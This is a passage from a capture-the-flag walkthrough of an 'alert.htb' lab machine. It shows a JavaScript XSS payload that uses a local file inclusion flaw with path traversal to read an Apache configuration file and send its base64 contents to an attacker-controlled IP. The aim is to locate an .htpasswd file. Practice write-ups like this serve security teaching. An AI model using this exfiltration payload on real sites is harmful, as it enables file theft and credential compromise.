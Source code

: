 We send the md file, copy the url and send it to contact

![passwd0](7.png)

We got a response and we confirm there is an LFI vulnerability.

## **Foothold**

We found the `statistics` subdomain which has a basic HTTP authentication.

the web server used is apache as we can see from the response headers.

```terminal
[★]$ curl statistics.alert.htb -v                                                                                                                                                         
[...]
> 
* Request completely sent off
< HTTP/1.1 401 Unauthorized
< Date: Fri, 06 Dec 2024 08:57:18 GMT
< Server: Apache/2.4.41 (Ubuntu)
< WWW-Authenticate: Basic realm="Restricted Area"
< Content-Length: 467
< Content-Type: text/html; charset=iso-8859-1
```

Apache stores the credentials for basic authentication in a file named `.htpasswd`.

Now we can guess the location of the file which could be `/var/www/statistics/.htpasswd` or we can use the LFI to read the apache configuration file `/etc/apache2/sites-available/000-default.conf` which contains the name of web root directory.

```js
<script>
fetch("/messages.php?file=../../../../../..//etc/apache2/sites-available/000-default.conf", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.10.16.8/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
```

We send the file and url and decode the base64 string.

```html
<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

```
